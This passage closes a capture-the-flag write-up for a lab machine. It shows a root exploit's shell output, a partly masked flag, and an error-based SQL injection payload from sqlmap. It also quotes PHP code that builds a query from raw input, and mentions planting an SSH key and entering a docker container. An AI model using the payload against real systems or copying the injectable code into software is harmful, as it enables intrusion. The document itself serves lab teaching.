 ```

oxdf@parrot$ python root.py 
[+] Opening connection to 10.10.10.61 on port 32812: Done
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)

```

And I can get `root.txt`:

```

$ cat /root/root.txt
cf941b35************************

```

## Beyond Root - Error-Based SQLI

### sqlmap Query

The example for the error-based injection that `sqlmap` gave was:

```

query=1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

```

Throwing that into Firefox returns:

![image-20210616094508546](https://0xdfimages.gitlab.io/img/image-20210616094508546.png)

The challenge here is that the plugin is printing the result of `$db->query`:

```

    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $result;

```

On a good query, that’s an object which leads to an error. But if I can make the query error out, then what returns into `$result` is an error string, and that will `echo` without error.

To show this, I’ll drop an SSH key into `/root/.ssh/authorized_keys` on Enterprise and get a better shell. Then I can drop into the `mysql` docker container:

```

root@enterprise:~# docker ps
CONTAINER ID        IMAGE                     COMMAND                  CREATED             STATUS              PORTS                  NAMES
a7018bfdc454        joomla:apache-php7        "/entrypoint.sh ap..."   3 years ago         Up 18 hours         0.0.0.0:8080->80/tcp   joomla
b8319d86d21e        wordpress:php5.6-apache   "docker-entrypoint..."   3 years ago         Up 18 hours         0.0.0.0:80->80/tcp     wordpress
15af95635b7d        mysql:latest              "docker-entrypoint..."   3 years ago         Up 18 hours         3306/tcp               mysql
root@enterprise:~# docker exec -it mysql bash
root@15af95635b7d:/#

```
